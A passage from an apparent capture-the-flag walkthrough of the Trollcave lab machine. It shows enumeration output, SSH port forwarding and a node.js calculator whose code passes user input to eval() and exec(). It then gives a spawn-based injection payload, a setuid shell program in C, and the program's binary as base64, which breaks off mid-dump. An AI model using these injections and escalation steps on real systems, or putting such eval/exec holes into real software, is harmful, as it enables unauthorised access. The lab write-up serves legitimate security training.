-rw-r--r-- 1 rails rails  559 Sep 16  2016 i18n.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 locale
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 page_number.rb
-rw-r--r-- 1 rails rails  489 Sep 16  2016 per_page.rb
-rw-r--r-- 1 rails rails 2.1K Sep 16  2016 railtie.rb
-rw-r--r-- 1 rails rails  782 Sep 16  2016 sequel.rb
-rw-r--r-- 1 rails rails  152 Sep 16  2016 version.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 view_helpers
-rw-r--r-- 1 rails rails 6.7K Sep 16  2016 view_helpers.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/will_paginate-3.0.7/lib/will_paginate/locale:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 en.yml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/will_paginate-3.0.7/lib/will_paginate/view_helpers:
total 36K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 4.4K Sep 16  2016 action_view.rb
-rw-r--r-- 1 rails rails 2.3K Sep 16  2016 link_renderer_base.rb
-rw-r--r-- 1 rails rails 4.1K Sep 16  2016 link_renderer.rb
-rw-r--r-- 1 rails rails  667 Sep 16  2016 merb.rb
-rw-r--r-- 1 rails rails  981 Sep 16  2016 sinatra.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/will_paginate-3.0.7/spec:
total 60K
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 4.1K Sep 16  2016 collection_spec.rb
-rwxr-xr-x 1 rails rails  420 Sep 16  2016 console
-rw-r--r-- 1 rails rails  796 Sep 16  2016 console_fixtures.rb
-rw-r--r-- 1 rails rails  490 Sep 16  2016 database.yml
-rw-r--r-- 1 rails rails  472 Sep 16  2016 fake_rubygems.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 finders
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 fixtures
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 matchers
-rw-r--r-- 1 rails rails 2.0K Sep 16  2016 page_number_spec.rb
-rw-r--r-- 1 rails rails  784 Sep 16  2016 per_page_spec.rb
-rw-r--r-- 1 rails rails  543 Sep 16  2016 spec_helper.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 view_helpers

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/will_paginate-3.0.7/spec/finders:
total 48K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  17K Sep 16  2016 active_record_spec.rb
-rw-r--r-- 1 rails rails 3.4K Sep 16  2016 activerecord_test_connector.rb
-rw-r--r-- 1 rails rails 2.8K Sep 16  2016 data_mapper_spec.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 data_mapper_test_connector.rb
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 sequel_spec.rb
-rw-r--r-- 1 rails rails  374 Sep 16  2016 sequel_test_connector.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/will_paginate-3.0.7/spec/fixtures:
total 56K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   87 Sep 16  2016 admin.rb
-rw-r--r-- 1 rails rails  426 Sep 16  2016 developer.rb
-rw-r--r-- 1 rails rails  218 Sep 16  2016 developers_projects.yml
-rw-r--r-- 1 rails rails  468 Sep 16  2016 project.rb
-rw-r--r-- 1 rails rails   98 Sep 16  2016 projects.yml
-rw-r--r-- 1 rails rails  560 Sep 16  2016 replies.yml
-rw-r--r-- 1 rails rails  195 Sep 16  2016 reply.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 schema.rb
-rw-r--r-- 1 rails rails  202 Sep 16  2016 topic.rb
-rw-r--r-- 1 rails rails  748 Sep 16  2016 topics.yml
-rw-r--r-- 1 rails rails   36 Sep 16  2016 user.rb
-rw-r--r-- 1 rails rails  424 Sep 16  2016 users.yml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/will_paginate-3.0.7/spec/matchers:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  499 Sep 16  2016 deprecation_matcher.rb
-rw-r--r-- 1 rails rails  414 Sep 16  2016 phrase_matcher.rb
-rw-r--r-- 1 rails rails  652 Sep 16  2016 query_count_matcher.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/will_paginate-3.0.7/spec/view_helpers:
total 40K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  13K Sep 16  2016 action_view_spec.rb
-rw-r--r-- 1 rails rails 4.6K Sep 16  2016 base_spec.rb
-rw-r--r-- 1 rails rails 2.7K Sep 16  2016 link_renderer_base_spec.rb
-rw-r--r-- 1 rails rails 2.9K Sep 16  2016 view_example_group.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/specifications:
total 224K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails 2.1K Sep 16  2016 ansi-1.5.0.gemspec
-rw-rw-r-- 1 rails rails 2.0K Sep 16  2016 bcrypt-3.1.10.gemspec
-rw-rw-r-- 1 rails rails 1.6K Sep 16  2016 binding_of_caller-0.7.2.gemspec
-rw-rw-r-- 1 rails rails 1.8K Sep 16  2016 byebug-6.0.2.gemspec
-rw-rw-r-- 1 rails rails 1.3K Sep 16  2016 coffee-rails-4.1.0.gemspec
-rw-rw-r-- 1 rails rails 1.5K Sep 16  2016 coffee-script-2.4.1.gemspec
-rw-rw-r-- 1 rails rails  988 Sep 16  2016 coffee-script-source-1.9.1.1.gemspec
-rw-rw-r-- 1 rails rails  830 Sep 16  2016 debug_inspector-0.0.2.gemspec
-rw-rw-r-- 1 rails rails 1.1K Sep 16  2016 execjs-2.6.0.gemspec
-rw-rw-r-- 1 rails rails 1.1K Sep 16  2016 faker-1.5.0.gemspec
-rw-rw-r-- 1 rails rails 1.3K Sep 16  2016 globalid-0.3.6.gemspec
-rw-rw-r-- 1 rails rails 2.5K Sep 16  2016 haml-4.0.7.gemspec
-rw-rw-r-- 1 rails rails 2.5K Sep 16  2016 haml-rails-0.9.0.gemspec
-rw-rw-r-- 1 rails rails 2.0K Sep 16  2016 html2haml-2.0.0.gemspec
-rw-rw-r-- 1 rails rails 1.3K Sep 16  2016 jbuilder-2.3.2.gemspec
-rw-rw-r-- 1 rails rails 1.5K Sep 16  2016 jquery-rails-4.0.5.gemspec
-rw-rw-r-- 1 rails rails 1.9K Sep 16  2016 mail-2.6.3.gemspec
-rw-rw-r-- 1 rails rails 5.3K Sep 16  2016 mime-types-2.6.2.gemspec
-rw-rw-r-- 1 rails rails 1.1K Sep 16  2016 mini_portile-0.6.2.gemspec
-rw-rw-r-- 1 rails rails 4.6K Sep 16  2016 minitest-5.8.1.gemspec
-rw-rw-r-- 1 rails rails 1.8K Sep 16  2016 minitest-rails-2.2.0.gemspec
-rw-rw-r-- 1 rails rails 1.9K Sep 16  2016 minitest-reporters-1.1.4.gemspec
-rw-rw-r-- 1 rails rails 2.6K Sep 16  2016 multi_json-1.11.2.gemspec
-rw-rw-r-- 1 rails rails 6.1K Sep 16  2016 nokogiri-1.6.6.2.gemspec
-rw-rw-r-- 1 rails rails 5.7K Sep 16  2016 pg-0.18.3.gemspec
-rw-rw-r-- 1 rails rails 2.5K Sep 16  2016 puma-2.14.0.gemspec
-rw-rw-r-- 1 rails rails 1.6K Sep 16  2016 rails_12factor-0.0.3.gemspec
-rw-rw-r-- 1 rails rails 1.8K Sep 16  2016 rails-html-sanitizer-1.0.2.gemspec
-rw-rw-r-- 1 rails rails 1.4K Sep 16  2016 rails_serve_static_assets-0.0.4.gemspec
-rw-rw-r-- 1 rails rails 1.1K Sep 16  2016 rails_stdout_logging-0.0.4.gemspec
-rw-rw-r-- 1 rails rails 4.9K Sep 16  2016 rake-10.4.2.gemspec
-rw-rw-r-- 1 rails rails 2.9K Sep 16  2016 rdoc-4.2.0.gemspec
-rw-rw-r-- 1 rails rails 1.5K Sep 16  2016 redcarpet-3.3.3.gemspec
-rw-rw-r-- 1 rails rails 4.2K Sep 16  2016 ruby_parser-3.7.1.gemspec
-rw-rw-r-- 1 rails rails 2.1K Sep 16  2016 ruby-progressbar-1.7.5.gemspec
-rw-rw-r-- 1 rails rails 1.8K Sep 16  2016 sass-3.4.19.gemspec
-rw-rw-r-- 1 rails rails 1.9K Sep 16  2016 sass-rails-5.0.4.gemspec
-rw-rw-r-- 1 rails rails 1.9K Sep 16  2016 sdoc-0.4.1.gemspec
-rw-rw-r-- 1 rails rails 2.9K Sep 16  2016 sexp_processor-4.6.0.gemspec
-rw-rw-r-- 1 rails rails 1.4K Sep 16  2016 spring-1.4.0.gemspec
-rw-rw-r-- 1 rails rails 3.3K Sep 16  2016 sprockets-3.4.0.gemspec
-rw-rw-r-- 1 rails rails 1.9K Sep 16  2016 sprockets-rails-2.3.3.gemspec
-rw-rw-r-- 1 rails rails 3.0K Sep 16  2016 sqlite3-1.3.11.gemspec
-rw-rw-r-- 1 rails rails  812 Sep 16  2016 tilt-2.0.1.gemspec
-rw-rw-r-- 1 rails rails 1017 Sep 16  2016 turbolinks-2.5.3.gemspec
-rw-rw-r-- 1 rails rails 2.2K Sep 16  2016 uglifier-2.7.2.gemspec
-rw-rw-r-- 1 rails rails 2.0K Sep 16  2016 web-console-2.2.1.gemspec
-rw-rw-r-- 1 rails rails 1013 Sep 16  2016 will_paginate-3.0.7.gemspec


### INTERESTING FILES ####################################
[-] Useful file locations:
/bin/nc
/bin/netcat
/usr/bin/wget
/usr/bin/curl


[-] Installed compilers:
ii  gcc-5                               5.4.0-6ubuntu1~16.04.9                     amd64        GNU C compiler
rc  libxkbcommon0:amd64                 0.5.0-1ubuntu2                             amd64        library interface to the XKB compiler - shared library


[-] Can we read/write sensitive files:
-rw-r--r-- 1 root root 1808 Oct 23  2017 /etc/passwd
-rw-r--r-- 1 root root 872 Oct 23  2017 /etc/group
-rw-r--r-- 1 root root 575 Oct 22  2015 /etc/profile
-rw-r----- 1 root shadow 1374 Oct 23  2017 /etc/shadow


[-] Can't search *.conf files as no keyword was entered

[-] Can't search *.php files as no keyword was entered

[-] Can't search *.log files as no keyword was entered

[-] Can't search *.ini files as no keyword was entered

[-] All *.conf files in /etc (recursive 1 level):
-rw-r--r-- 1 root root 100 Nov 25  2015 /etc/sos.conf
-rw-r--r-- 1 root root 338 Nov 18  2014 /etc/updatedb.conf
-rw-r--r-- 1 root root 6920 Jan 11 07:42 /etc/overlayroot.conf
-rw-r--r-- 1 root root 4781 Mar 17  2016 /etc/hdparm.conf
-rw-r--r-- 1 root root 8464 Oct 20  2017 /etc/ca-certificates.conf
-rw-r--r-- 1 root root 1260 Mar 16  2016 /etc/ucf.conf
-rw-r--r-- 1 root root 771 Mar  6  2015 /etc/insserv.conf
-rw-r--r-- 1 root root 191 Jan 19  2016 /etc/libaudit.conf
-rw-r--r-- 1 root root 2084 Sep  6  2015 /etc/sysctl.conf
-rw-r--r-- 1 root root 144 Sep 16  2016 /etc/kernel-img.conf
-rw-r--r-- 1 root root 350 Sep 16  2016 /etc/popularity-contest.conf
-rw-r--r-- 1 root root 1371 Jan 28  2016 /etc/rsyslog.conf
-rw-r--r-- 1 root root 967 Oct 30  2015 /etc/mke2fs.conf
-rw-r--r-- 1 root root 3028 Apr 21  2016 /etc/adduser.conf
-rw-r--r-- 1 root root 2969 Nov 10  2015 /etc/debconf.conf
-rw-r--r-- 1 root root 92 Oct 22  2015 /etc/host.conf
-rw-r--r-- 1 root root 703 May  6  2015 /etc/logrotate.conf
-rw-r--r-- 1 root root 552 Mar 16  2016 /etc/pam.conf
-rw-r--r-- 1 root root 604 Jul  2  2015 /etc/deluser.conf
-rw-r--r-- 1 root root 280 Jun 20  2014 /etc/fuse.conf
-rw-r--r-- 1 root root 2584 Feb 18  2016 /etc/gai.conf
-rw-r--r-- 1 root root 14867 Apr 12  2016 /etc/ltrace.conf
-rw-r--r-- 1 root root 10368 Oct  2  2015 /etc/sensors3.conf
-rw-r--r-- 1 root root 497 May  4  2014 /etc/nsswitch.conf
-rw-r--r-- 1 root root 34 Jan 27  2016 /etc/ld.so.conf


[-] Current user's history files:
-rw------- 1 root  root  26 May  6 05:04 /home/rails/.bash_history
-rw------- 1 rails rails 82 May  6 05:24 /home/rails/.sqlite_history


[-] Location and contents (if accessible) of .bash_history file(s):
/home/rails/.bash_history
/home/king/.bash_history


[-] Any interesting mail in /var/mail:
total 8
drwxrwsr-x  2 root mail 4096 Apr 21  2016 .
drwxr-xr-x 14 root root 4096 Sep 16  2016 ..


### SCAN COMPLETE ####################################
rails@trollcave:/tmp$
```

###### Enumerating 8888

```sh
rails@trollcave:/tmp$ netstat -antp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:3000            0.0.0.0:*               LISTEN      931/ruby2.3
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8888          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:55074         127.0.0.1:80            TIME_WAIT   -
tcp        0      0 127.0.0.1:55018         127.0.0.1:80            TIME_WAIT   -
tcp        0      0 127.0.0.1:38344         127.0.0.1:3000          TIME_WAIT   -
tcp        0      0 127.0.0.1:3000          127.0.0.1:38348         TIME_WAIT   -
tcp        0      0 192.168.1.30:22         192.168.1.28:53430      ESTABLISHED -
tcp        0      0 127.0.0.1:55080         127.0.0.1:80            TIME_WAIT   -
tcp        0      0 127.0.0.1:80            127.0.0.1:55058         ESTABLISHED -
tcp        0      0 127.0.0.1:3000          127.0.0.1:38368         TIME_WAIT   -
tcp        0      0 127.0.0.1:55056         127.0.0.1:80            TIME_WAIT   -
tcp        0      0 127.0.0.1:3000          127.0.0.1:38366         TIME_WAIT   -
tcp        0      0 127.0.0.1:55062         127.0.0.1:80            TIME_WAIT   -
tcp        0      0 127.0.0.1:3000          127.0.0.1:38342         TIME_WAIT   -
tcp        0      0 127.0.0.1:3000          127.0.0.1:38364         TIME_WAIT   -
tcp        0      0 127.0.0.1:3000          127.0.0.1:38350         TIME_WAIT   -
tcp        0      0 127.0.0.1:55058         127.0.0.1:80            ESTABLISHED 1211/ruby
tcp        0      0 127.0.0.1:3000          127.0.0.1:38338         TIME_WAIT   -
tcp        0      0 127.0.0.1:3000          127.0.0.1:38356         TIME_WAIT   -
tcp        0      0 127.0.0.1:3000          127.0.0.1:38362         TIME_WAIT   -
tcp        0      0 127.0.0.1:38354         127.0.0.1:3000          TIME_WAIT   -
tcp        0      0 127.0.0.1:55082         127.0.0.1:80            TIME_WAIT   -
tcp        0      0 127.0.0.1:55068         127.0.0.1:80            TIME_WAIT   -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 ::1:5432                :::*                    LISTEN      -
tcp6       0      0 ::1:5432                ::1:56326               ESTABLISHED -
tcp6       0      0 ::1:5432                ::1:56684               ESTABLISHED -
tcp6       0      0 ::1:5432                ::1:56682               ESTABLISHED -
tcp6       0      0 ::1:56326               ::1:5432                ESTABLISHED 931/ruby2.3
tcp6       0      0 ::1:5432                ::1:56680               ESTABLISHED -
tcp6       0      0 ::1:56684               ::1:5432                ESTABLISHED 931/ruby2.3
tcp6       0      0 ::1:56680               ::1:5432                ESTABLISHED 931/ruby2.3
tcp6       0      0 ::1:56686               ::1:5432                ESTABLISHED 931/ruby2.3
tcp6       0      0 ::1:5432                ::1:56686               ESTABLISHED -
tcp6       0      0 ::1:56682               ::1:5432                ESTABLISHED 931/ruby2.3
rails@trollcave:/tmp$
rails@trollcave:/tmp$
ssh> -L 8888:localhost:8888
Forwarding port.

rails@trollcave:/tmp$
```

```sh
rails@trollcave:/tmp$ curl localhost:8888
<h1>The King's Calculator</h1><p>Enter your calculation below:</p><form action='/calc' method='get'><input type='text' name='sum' value='1+1'><input type='submit' value='Calculate!'></form><hr style='margin-top:50%'><small><i>Powered by node.js</i></small>
rails@trollcave:/tmp$
rails@trollcave:/tmp$ curl localhost:8888/calc?sum=1+1
2
rails@trollcave:/tmp$
```

```sh
rails@trollcave:/tmp$ find / -name calc 2>/dev/null
/usr/src/linux-headers-4.4.0-116-generic/include/config/can/calc
/usr/src/linux-headers-4.4.0-97-generic/include/config/can/calc
/home/king/calc
rails@trollcave:/tmp$
```

```sh
rails@trollcave:/tmp$ cd /home/king/calc/
rails@trollcave:/home/king/calc$ ls -l
total 4
-rw-rw-r-- 1 king king 2030 Sep 28  2017 calc.js
rails@trollcave:/home/king/calc$
```

`calc.js`

```js
var http = require("http");
var url = require("url");
var sys = require('sys');
var exec = require('child_process').exec;

// Start server
function start(route)
{
	function onRequest(request, response)
	{
		var theurl = url.parse(request.url);
		var pathname = theurl.pathname;
		var query = theurl.query;
		console.log("Request for " + pathname + query + " received.");
		route(pathname, request, query, response);
	}

http.createServer(onRequest).listen(8888, '127.0.0.1');
console.log("Server started");
}

// Route request
function route(pathname, request, query, response)
{
	console.log("About to route request for " + pathname);
	switch (pathname)
	{
		// security risk
		/*case "/ping":
			pingit(pathname, request, query, response);
			break;	*/

		case "/":
			home(pathname, request, query, response);
			break;

		case "/calc":
			calc(pathname, request, query, response);
			break;

		default:
			console.log("404");
			display_404(pathname, request, response);
			break;
	}
}

function home(pathname, request, query, response)
{
	response.end("<h1>The King's Calculator</h1>" +
			"<p>Enter your calculation below:</p>" +
			"<form action='/calc' method='get'>" +
				"<input type='text' name='sum' value='1+1'>" +
				"<input type='submit' value='Calculate!'>" +
			"</form>" +
			"<hr style='margin-top:50%'>" +
			"<small><i>Powered by node.js</i></small>"
			);
}

function calc(pathname, request, query, response)
{
	sum = query.split('=')[1];
	console.log(sum)
	response.writeHead(200, {"Content-Type": "text/plain"});

	response.end(eval(sum).toString());
}

function ping(pathname, request, query, response)
{
	ip = query.split('=')[1];
	console.log(ip)
	response.writeHead(200, {"Content-Type": "text/plain"});

	exec("ping -c4 " + ip, function(err, stdout, stderr) {
		response.end(stdout);
	});
}

function display_404(pathname, request, response)
{
	response.write("<h1>404 Not Found</h1>");
	response.end("I don't have that page, sorry!");
}

// Start the server and route the requests
start(route);
```




```js
require('child_process').spawn('touch',["/tmp/test"])
```


```sh
rails@trollcave:/home/king/calc$ cd /tmp/
rails@trollcave:/tmp$ ls -l
total 4
drwx------ 3 root root 4096 May  6 06:48 systemd-private-ef48411a82234c9aa23f0cfc37907bce-systemd-timesyncd.service-fLNdo0
-rw-r--r-- 1 king king    0 May  6 07:02 test
rails@trollcave:/tmp$
```

```sh
rails@trollcave:/tmp$ cat /etc/passwd | grep king
king:x:1000:1000:King,,,:/home/king:/bin/bash
rails@trollcave:/tmp$
```

`suid.c`

```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
int main( int argc, char *argv[] )
{
	setreuid(1000, 1000);
	execve("/bin/sh", NULL, NULL);
}
```

```sh
root@kali:~/trollcave# gcc -o suid suid.c
```

```sh
root@kali:~/trollcave# base64 suid
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
AUg53XXqSIPECFtdQVxBXUFeQV/DkGYuDx+EAAAAAADzwwAASIPsCEiDxAjDAAAAAQACAC9iaW4v
c2gAARsDOzgAAAAGAAAA5P3//4QAAAAU/v//rAAAACT+//9UAAAALv///8QAAAB0////5AAAAOT/
//8sAQAAFAAAAAAAAAABelIAAXgQARsMBwiQAQcQFAAAABwAAADI/f//KwAAAAAAAAAAAAAAFAAA
AAAAAAABelIAAXgQARsMBwiQAQAAJAAAABwAAABY/f//MAAAAAAOEEYOGEoPC3cIgAA/GjsqMyQi
AAAAABQAAABEAAAAYP3//wgAAAAAAAAAAAAAABwAAABcAAAAYv7//zsAAAAAQQ4QhgJDDQZ2DAcI
AAAARAAAAHwAAACI/v//ZQAAAABCDhCPAkIOGI4DRQ4gjQRCDiiMBUgOMIYGSA44gwdNDkByDjhB
DjBBDihCDiBCDhhCDhBCDggAEAAAAMQAAACw/v//AgAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACABgAAAAAAAEAGAAAAAAAAAQAAAAAAAAABAAAAAAAA
AAwAAAAAAAAAKAUAAAAAAAANAAAAAAAAAEQHAAAAAAAAGQAAAAAAAADoDSAAAAAAABsAAAAAAAAA
CAAAAAAAAAAaAAAAAAAAAPANIAAAAAAAHAAAAAAAAAAIAAAAAAAAAPX+/28AAAAAmAIAAAAAAAAF
